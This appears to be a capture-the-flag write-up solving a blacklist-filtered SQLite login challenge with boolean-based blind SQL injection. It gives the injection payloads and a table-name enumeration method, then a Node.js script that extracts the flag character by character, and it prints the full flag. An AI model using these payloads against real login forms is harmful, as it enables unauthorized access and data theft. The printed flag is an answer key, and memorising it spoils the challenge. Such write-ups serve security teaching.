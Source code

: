 *Name*: Blacklist Reloaded  
*Instructions*: Maybe I'm foolish, maybe I'm blind, thinking I can see through this and see what's behind! Can you get the flag from http://challenges.runesec.com:15123 ?  
*Hint*: Can you leak out any information? You might like it :)  

### Exploration
We know this is another challenge of SQL injection with a blacklist.
We are given a login interface with Username and Password fields. We assume the following query is invoked on the login server:  
`SELECT * FROM ??? WHERE username="{sqli input}" AND password="{sqli input}"`  

We can start by finding what's in the blacklist and what we can actually use.  
*(If a blacklisted term is found in the input, a special page is returned saying that a blacklisted term was used)*  
Some of the blacklisted semantics: `', ;, =, UNION`  
Some of the semantics we can use: `", OR, AND, EXISTS, SELECT, WHERE, LIKE, %, /*, --`

### Exploitation
We start pretty simple:  
`" OR 1 /*`
- `"` to validly close the opened quotes that expect to contain the username.
- `OR 1` because ORing something TRUE, makes the whole expression to evaluate as TRUE.
- `/*` is a multi-line comment to escape anything that comes after our crafted query and avoid errors.  

This works, kinda. We go through the login wall successfully, but the page we land reads:  
`Well done, but the flag is not here`

This will prove helpful. We know whatever statement we put after `OR`, will be true only if we land on this page, otherwise we'll get to a page that reads `Login failed`.

##### Finding table names:
From https://www.sqlite.org/faq.html:
```
Every SQLite database has an SQLITE_MASTER table that defines the schema for the database.  
The SQLITE_MASTER table looks like this:

CREATE TABLE sqlite_master (
  type TEXT,
  name TEXT,
  tbl_name TEXT,
  rootpage INTEGER,
  sql TEXT
);
For tables, the type field will always be 'table' and the name field will be the name of the table.
```
We can start discovering table names as follows:  
`" OR EXISTS(SELECT * FROM SQLITE_MASTER WHERE type LIKE "table" AND name LIKE "a%") /*` FAIL  
`" OR EXISTS(SELECT * FROM SQLITE_MASTER WHERE type LIKE "table" AND name LIKE "b%") /*` FAIL  
`" OR EXISTS(SELECT * FROM SQLITE_MASTER WHERE type LIKE "table" AND name LIKE "c%") /*` FAIL  
`" OR EXISTS(SELECT * FROM SQLITE_MASTER WHERE type LIKE "table" AND name LIKE "d%") /*` FAIL  
`" OR EXISTS(SELECT * FROM SQLITE_MASTER WHERE type LIKE "table" AND name LIKE "e%") /*` FAIL  
`" OR EXISTS(SELECT * FROM SQLITE_MASTER WHERE type LIKE "table" AND name LIKE "f%") /*` SUCCESS  
Great! We now know there's a table that starts with the letter `f`.  
`" OR EXISTS(SELECT * FROM SQLITE_MASTER WHERE type LIKE "table" AND name LIKE "fa%") /*` FAIL  
`" OR EXISTS(SELECT * FROM SQLITE_MASTER WHERE type LIKE "table" AND name LIKE "fb%") /*` FAIL  
...  
`" OR EXISTS(SELECT * FROM SQLITE_MASTER WHERE type LIKE "table" AND name LIKE "fl%") /*` SUCCESS   
Great! We now know there's a table that starts with `fl`.  

Repeating the process, for the rest of the table name we discover a table named `flagHERE`.  
*(We can figure out when we've discovered the full table name when we exhaust all the possible characters to be appended to the current discovered name, but they all fail)*

We guess there's a column named `flag` in table `flagHERE` and we can use the same methodology as above to discover the flag, one character at a time.

### Solution 
```
var axios = require('axios');

var URL         = 'http://challenges.runesec.com:15123/login.php';
var LEN_FLAG    = 32 + 4 + 2;
var SUCCESS_MSG = 'Well done, but the flag is not here'

var d = ('0123456789abcdef' + 'lg{}').split('');

var step = function(i, c, flag) {
    if (i >= LEN_FLAG) return;
    if (c >= d.length) return;
    var fflag = flag + d[c];
    var query = '" OR EXISTS(SELECT flag FROM flagHERE WHERE flag LIKE "' + fflag + '%") /*';
    axios.post(URL, 'username=' + query, { headers: {'Content-Type': 'application/x-www-form-urlencoded' }})
    .then(function(res) {
      var success = res.data.indexOf(SUCCESS_MSG) !== -1;
      if (success) {
        console.log(fflag);
        step(i + 1, 0, fflag);
      } else {
        step(i, c + 1, flag);
      }
    });
}
step(0, 0, '');

f
fl
fla
flag
flag{
flag{c
flag{c6
flag{c6a
flag{c6a7
flag{c6a7e
flag{c6a7ee
flag{c6a7eee
flag{c6a7eee6
flag{c6a7eee68
flag{c6a7eee68d
flag{c6a7eee68d1
flag{c6a7eee68d18
flag{c6a7eee68d185
flag{c6a7eee68d1851
flag{c6a7eee68d18518
flag{c6a7eee68d185186
flag{c6a7eee68d1851866
flag{c6a7eee68d18518663
flag{c6a7eee68d18518663b
flag{c6a7eee68d18518663b7
flag{c6a7eee68d18518663b76
flag{c6a7eee68d18518663b76d
flag{c6a7eee68d18518663b76da
flag{c6a7eee68d18518663b76dab
flag{c6a7eee68d18518663b76dab1
flag{c6a7eee68d18518663b76dab17
flag{c6a7eee68d18518663b76dab17f
flag{c6a7eee68d18518663b76dab17f9
flag{c6a7eee68d18518663b76dab17f99
flag{c6a7eee68d18518663b76dab17f990
flag{c6a7eee68d18518663b76dab17f990a
flag{c6a7eee68d18518663b76dab17f990a5
flag{c6a7eee68d18518663b76dab17f990a5}
```
